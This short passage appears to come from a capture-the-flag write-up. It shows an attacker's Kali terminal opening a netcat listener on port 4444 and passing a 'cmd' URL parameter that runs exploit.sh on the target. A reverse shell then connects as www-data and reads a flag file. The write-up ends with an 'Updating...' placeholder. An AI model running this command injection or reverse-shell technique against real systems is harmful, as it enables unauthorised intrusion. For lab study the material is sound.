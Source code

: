 ```bash
┌──(I3isk3t㉿kali)-[~]
└─$ nc -lnvp 4444
listening on [any] 4444 ...
```

```bash
?cmd=bash exploit.sh
```

```bash
┌──(I3isk3t㉿kali)-[~]
└─$ nc -lnvp 4444
listening on [any] 4444 ...
Connection received on 10.13.37.15
www-data@0474e1401baa:~/web$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)  
www-data@0474e1401baa:~/web$ cd ..
www-data@0474e1401baa: cat ../flag.txt 
AWS{N0nc3_R3u5e_t0_s571_c0de_ex3cu71on}
www-data@0474e1401baa:
```

---

> **Updating...**

---
